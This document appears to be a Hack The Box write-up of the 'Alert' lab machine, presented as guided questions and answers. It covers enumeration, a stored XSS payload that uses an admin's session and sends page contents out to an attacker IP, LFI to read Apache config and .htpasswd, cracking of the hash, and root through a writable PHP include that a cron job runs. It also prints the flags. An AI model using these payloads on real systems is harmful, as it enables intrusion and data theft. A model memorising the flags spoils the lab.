





# 🐧 Alert — HTB


> **TL;DR** — Only `22` and `80` are open; the web root is `alert.htb`, and vhost enumeration exposes a basic-auth–protected `statistics.alert.htb` → `alert.htb`'s `/visualizer.php` is vulnerable to **stored XSS** in uploaded Markdown, and the **Contact Us** form has an admin who clicks any link we submit → chaining the two lets us use the admin's session to read `messages.php`, then **LFI** arbitrary files via `messages.php?file=` → leaking the Apache vhost config and `.htpasswd` yields `albert`'s hash, cracked to `manchesterunited` for SSH → a **root cron** runs `/opt/website-monitor/monitor.php`, whose `config/configuration.php` include is writable by albert's `management` group → appending PHP there and triggering the root-owned web server on `:8080` gives a SUID bash → root.

**Tags:** `vhost enumeration` · `stored XSS` · `CSRF-like admin interaction` · `XSS → LFI chain` · `local file inclusion` · `htpasswd cracking` · `cron privesc` · `writable include` · `SUID`

---

## 1. How many open TCP ports are listening on Alert?

Start with a full-range service scan:

```bash
nmap -sV -p- 10.129.231.188
```

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
12227/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two ports are **open** (SSH and HTTP); `12227` is only `filtered`, not open.

> **Answer:** `2`

## 2. What is the primary domain name used by the webserver on Alert?

Browsing to the IP redirects to `alert.htb`, so I added it to `/etc/hosts` to reach the site by name:

```bash
echo "10.129.231.188 alert.htb" | sudo tee -a /etc/hosts
```

> **Answer:** `alert.htb`

## 3. What is the full name of the subdomain of alert.htb that hosts a different application?

I enumerated virtual hosts, filtering the `301` redirects non-existent vhosts return:

```bash
gobuster vhost -u http://alert.htb \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  --append-domain -xs 301
```

```
statistics.alert.htb   Status: 401 [Size: 467]
```

The `401` (basic-auth protected) stands out — a different application behind HTTP authentication.

> **Answer:** `statistics.alert.htb`

## 4. What is the relative path on the site of the page that is vulnerable to a stored cross-site scripting (XSS) attack?

The main site lets you upload a Markdown file and renders it at `/visualizer.php`. Running a Burp scan flagged this endpoint, which I validated manually with a simple payload:

```html
SvOiQVZA1sdxbhb<script>alert(1)</script>qjwex
```




The script executes when the rendered Markdown is viewed — stored XSS.

> **Answer:** `/visualizer.php`

## 5. Does the admin user click on links sent to them via the contact form?

To test, I used the **Contact Us** form and submitted a link pointing back to a Python web server on my machine:

```bash
python -m http.server 8888
```

```
10.129.231.188 - - [24/Nov/2026 14:01:59] "GET /test.txt HTTP/1.1" 200 -
```

The request came in from the target — an admin on the box does fetch links we submit.

> **Answer:** `yes`

## 6. What is the name of the .txt file that there is a link to on the messages.php page?

`messages.php` is only accessible to the admin, so I **chained** the two findings: a stored-XSS payload served via `visualizer.php`, delivered to the admin through the Contact form.

I created a Markdown file whose embedded script fetches `messages.php` with the admin's session and exfiltrates the response to my listener:

```html
<script>
fetch("http://alert.htb/messages.php")
  .then(r => r.text())
  .then(d => {
    new Image().src = "http://10.10.14.229:8888/?x=" + encodeURIComponent(d);
  });
</script>
```

I uploaded it and used the **Share** button, which produces a shareable link:


```
http://alert.htb/visualizer.php?link_share=6b058d22743a10.96274573.md
```

I pasted that link into the **Contact Us** form:





URL-decoding the captured data (Burp Decoder) reveals the link on the page:

```html
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```

> **Answer:** `2024-03-10_15-48-34.txt`

## 7. What is the full path to the directory on Alert that holds files for the statistics.alert.htb site?

The `messages.php?file=` parameter is vulnerable to **local file inclusion**. I reused the same XSS-to-exfil technique, this time reading the Apache vhost config (default location `/etc/apache2/sites-enabled/000-default.conf`):

```html
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../../../../etc/apache2/sites-enabled/000-default.conf")
  .then(r => r.text())
  .then(d => {
    new Image().src = "http://10.10.14.229:8888/?x=" + encodeURIComponent(d);
  });
</script>
```



Decoded, the config shows both vhosts and the protected site's document root:

```apache
<VirtualHost *:80>
    ServerName statistics.alert.htb
    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
</VirtualHost>
```

> **Answer:** `/var/www/statistics.alert.htb`

## 8. What is the password for the albert user on Alert?

The config points to `/var/www/statistics.alert.htb/.htpasswd`. Reading it via the same LFI returns the hash:

```
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

This is an Apache `apr1` (md5apr1) hash — hashcat mode `1600`:

```bash
echo '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/' > hash_hc.txt
hashcat -m 1600 hash_hc.txt rockyou.txt
```

```
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

> **Answer:** `manchesterunited`

## 9. Submit the flag located in the albert user's home directory.

Those credentials work over SSH:

```bash
ssh albert@alert.htb
cat ~/user.txt
```

> **Answer:** `2e6877fc26247a15db0c021a02a06714`

## 10. What is the full path to the php file being executed by the root user periodically?

Watching for processes and the monitor output revealed a root-owned job. `monitor.php` is the only functional PHP in `/opt/website-monitor`; the files in `monitors/` refresh every minute and a root-owned dev server on `:8080` serves that webroot:

```bash
while true; do ps -eo user,pid,cmd | grep -i '[p]hp'; sleep 1; done
ls -la --time-style=full /opt/website-monitor/monitors/
```

Its first line is a relative include — `include('config/configuration.php')`. That file is writable via the `management` group (albert's group), so PHP appended there runs as root, and the `:8080` server lets us trigger it on demand instead of waiting for the cron.

> **Answer:** `/opt/website-monitor/monitor.php`

## 11. Submit the flag located in the root user's home directory.

I appended a new `<?php ?>` block to the writable include (keeping `PATH` intact) that copies bash and sets it SUID, then triggered it via the root-owned web server:

```bash
echo "<?php system('cp /bin/bash /tmp/bash0 && chmod 4755 /tmp/bash0'); ?>" \
  >> /opt/website-monitor/config/configuration.php
curl -s http://127.0.0.1:8080/monitor.php >/dev/null
/tmp/bash0 -p
```

```
bash0-5.0# id
uid=1000(albert) gid=1000(albert) euid=0(root) groups=1000(albert),1001(management)
bash0-5.0# cat /root/root.txt
5b546d91f2d8a934bc02d3181ada1969
```

> **Answer:** `5b546d91f2d8a934bc02d3181ada1969`

---

## 🏁 Flags

| Flag | Value |
|---|---|
| **User** (`/home/albert/user.txt`) | `2e6877fc26247a15db0c021a02a06714` |
| **Root** (`/root/root.txt`) | `5b546d91f2d8a934bc02d3181ada1969` |
